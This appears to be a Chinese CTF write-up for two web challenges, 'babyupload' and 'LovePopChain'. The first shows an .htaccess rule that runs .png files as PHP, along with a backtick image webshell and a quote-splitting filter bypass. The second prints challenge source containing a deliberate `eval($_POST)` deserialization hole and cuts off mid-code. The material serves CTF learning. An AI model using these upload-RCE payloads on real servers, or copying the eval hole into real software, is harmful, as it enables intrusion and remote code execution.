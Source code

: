 ## babyupload

尝试发现过滤了`php`的各种格式，以及函数的括号`()`，还会检测图片的文件头，服务器是`apache`类型，可以利用`.htaccess`文件和图片马来rce

`.htaccess`文件

```php
AddType application/x-httpd-php .png
```

![13](https://the0n3.top/medias/buildCTF/13.png)

图片马需要一些绕过，使用反引号直接执行命令，避免使用函数。如果一定要使用函数，`include`，`require`也可以尝试一下，这两个函数可以作为语言结构直接用，例如`include"1.png";`

图片马`1.png`，把结果写到`1.txt`

```php
<?=`env > 1.txt`?>
```

![14](https://the0n3.top/medias/buildCTF/14.png)

发现这样还会检测，猜测是否是过滤了命令`env`，尝试使用`en''v`绕过，发现可以的

![15](https://the0n3.top/medias/buildCTF/15.png)

## LovePopChain

挺简单的，好像没有什么特别的，GET参数`No_Need.For.Love`，在php8以下属于非法变量名，会接收不到，需要把第一个下划线使用`[`来代替绕过

::: details
```php
<?php
class MyObject{
    public $NoLove="Do_You_Want_Fl4g?";
    public $Forgzy;
    public function __wakeup()
    {
        if($this->NoLove == "Do_You_Want_Fl4g?"){
            echo 'Love but not getting it!!';
        }
    }
    public function __invoke()
    {
        $this->Forgzy = clone new GaoZhouYue();
    }
}

class GaoZhouYue{
    public $Yuer;
    public $LastOne;
    public function __clone()
    {
        echo '最后一次了, 爱而不得, 未必就是遗憾~~';
        eval($_POST['y3y4']);
    }
}

class hybcx{
    public $JiuYue;
    public $Si;

    public function __call($fun1,$arg){
        $this->Si->JiuYue=$arg[0];
    }
```